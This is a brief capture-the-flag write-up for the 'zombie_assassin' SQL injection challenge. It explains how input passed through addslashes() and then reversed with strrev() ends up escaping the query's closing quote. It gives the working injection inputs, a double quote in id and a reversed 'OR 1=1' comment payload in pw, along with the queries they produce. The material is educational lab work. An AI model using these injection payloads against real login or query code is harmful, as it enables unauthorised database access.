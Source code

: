```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 17
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/283aa376-d15c-49ea-92d5-30ce164ce2d7)

We are provided with the SQL query:

```sql
SELECT id FROM prob_zombie_assassin WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

This challenge use the `addslashes()` function to add a (`\`) before every input quote. It then reverses the string using the `strrev()`s function.

If we provide the following URI:

```
?id="
```

The resultant query becomes:

```sql
SELECT id FROM prob_zombie_assassin WHERE id='"\' AND pw=''
```

Our input double-quote (`"`) is escaped (`\"`) and then the entire character sequence is reversed (`"\`).
This causes the original closing single-quote to be escaped (`"\'`) and the `"\' AND pw=` part is treated as a string.

We can now provide the following URI:

```
?id="&pw=- -- 1=1 RO 
```

The resultant query becomes:

```sql
SELECT id FROM prob_zombie_assassin WHERE id='"\' AND pw=' OR 1=1 -- -'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/6216a823-f0ba-4fd3-90ed-88b30bd5e938)
